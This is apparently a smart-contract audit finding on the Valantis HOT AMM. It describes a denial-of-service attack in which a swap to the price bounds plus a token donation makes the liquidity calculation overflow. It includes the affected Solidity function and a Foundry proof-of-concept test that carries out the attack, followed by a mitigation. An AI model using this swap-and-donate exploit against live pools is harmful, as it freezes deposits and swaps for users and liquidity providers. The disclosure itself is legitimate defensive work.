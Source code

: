 Fast Olive Bat

medium

# Liquidity calculation overflows can be weaponized for DoS attacks via token donations

## Summary

The function `_calculateAMMLiquidity()` can be forced to revert with a swap that ends moving the AMM price close to the price boundaries, followed by a token donation.

## Vulnerability Detail

Function `getLiquidityForAmount0` and `getLiquidityForAmount1` may revert due to numerical overflow when `sqrtRatioAX96` and `sqrtRatioBX96` have very similar values.

In the design of HOT, such a similarity of prices can be achieved by swapping most of the reserves to a single token. Such a situation may arise completely naturally, as the price of the asset evolves over time, and the Valantis pool gets arbitraged.

If in this situation the scarce token's reserves get sufficiently increased, liquidity calculations start to revert.

Reserve increases normally happen via the deposit function called by a trusted liquidity provider. However, for rebase tokens the `balanceOf` function is used to check for reserves. This enables two other ways how reserves can be increased:
1. Via donations to the pool - can be weaponized by an attacker.
2. Over time, as positive rebase tokens grow on its own. They will eventually reach the overflow state, provided that the price stays close to the range bounds for a sufficient time. 

The following HOT core functions call `_calculateAMMLiquidity()`:
* `depositLiquidity`
* `withdrawLiquidity`
* `getReservesAtPrice`
* AMM swaps (in the body of the swap)
* HOT swaps (in the callback)

When this state is entered,  most of these functions become unuseable. The exceptions are:
* `withdrawLiquidity` - since the liquidity recalculation is done after moving the tokens out of the pool, withdrawing sufficient liquidity fixes the DoS
* HOT swaps that change the price of the AMM - however, this is not possible if the oracle feeds have not been set, or the signer is inoperational. According to comments in the code, "AMM-only" mode of operation is also envisioned, where the oracle feeds are not set. In any case, setting the feeds is under a timelock and cannot be done immediately.

The DoS can also be fixed by calling `setPriceBounds`, but it's also under a timelock.

## Impact

The DoS is easy to revert, by calling `withdrawLiquidity` with the right arguments, however, it still does break core contract functionality, requires intervention of a trusted party, and stops time-sensitive functions from execution (the permissionless AMM swaps, for instance). Therefore I believe this issue is a valid Medium.


## Code Snippet

https://github.com/sherlock-audit/2024-03-arrakis/blob/main/valantis-hot/src/HOT.sol#L1008
```solidity
    function _calculateAMMLiquidity() private view returns (uint128 updatedLiquidity) {
        (uint160 sqrtSpotPriceX96Cache, uint160 sqrtPriceLowX96Cache, uint160 sqrtPriceHighX96Cache) = _getAMMState();

        // Query current pool reserves
        (uint256 reserve0, uint256 reserve1) = ISovereignPool(_pool).getReserves();

        // Calculate liquidity corresponding to each of token's reserves and respective price ranges
        uint128 liquidity0 = LiquidityAmounts.getLiquidityForAmount0(
            sqrtSpotPriceX96Cache,
            sqrtPriceHighX96Cache,
            reserve0 // @audit may revert if sqrtSpotPriceX96Cache and sqrtPriceHighX96Cache are close
        );
        uint128 liquidity1 = LiquidityAmounts.getLiquidityForAmount1(
            sqrtPriceLowX96Cache,
            sqrtSpotPriceX96Cache,
            reserve1 // @audit may revert if sqrtPriceLowX96Cache and sqrtSpotPriceX96Cache are close
        );
     // ...
    }
```

## PoC

<details>
  <summary>Attack PoC</summary>

```solidity
    function test_swap_and_donate_attack() public {
        // -------
        // Setup (not part of the attack)
        // -------

        // deploy rebase token pool
        SovereignPoolConstructorArgs memory poolArgs = _generateDefaultConstructorArgs();
        poolArgs.isToken0Rebase = true;
        poolArgs.isToken1Rebase = true;
        pool = this.deploySovereignPool(poolArgs);
        hot = deployAndSetDefaultHOT(pool);

        _addToContractsToApprove(address(pool));
        _addToContractsToApprove(address(hot));

        token0.approve(address(hot), 1e26);
        token1.approve(address(hot), 1e26);

        token0.approve(address(pool), 1e26);
        token1.approve(address(pool), 1e26);

        hot.depositLiquidity(5e18, 10_000e18 - 1700, 0, 0);

        vm.prank(address(this));
        hot.setMaxOracleDeviationBips(hotImmutableMaxOracleDeviationBound, hotImmutableMaxOracleDeviationBound);
        
        // -------
        // Attack
        // -------

        // 1. Swap to price bounds using the permissionless AMM swap, clearing almost all token1 from the pool
        SovereignPoolSwapContextData memory data;
        SovereignPoolSwapParams memory params = SovereignPoolSwapParams({
            isSwapCallback: false,
            isZeroToOne: true,
            amountIn: 5.773502691896257884e18,
            amountOutMin: 0,
            recipient: address(this),
            deadline: block.timestamp + 2,
            swapTokenOut: address(token1),
            swapContext: data
        });
        pool.swap(params);

        // 2. Donate some token1 to the pool
        token1.transfer(address(pool), 1e18);

        // 3. Check that the AMM is now DoSed
        vm.expectRevert();
        hot.depositLiquidity(1, 1, 0, 0); // fails with "EvmError: Revert"

        vm.expectRevert();
        hot.withdrawLiquidity(1, 1, address(this), 0, 0); // fails with "EvmError: Revert"
    }
```
</details>

## Tool used

Manual Review

## Recommendation

Do not allow swaps to move the post-swap price close to the AMM price boundaries - leave sufficient safety margin. This will increase the price of the attack.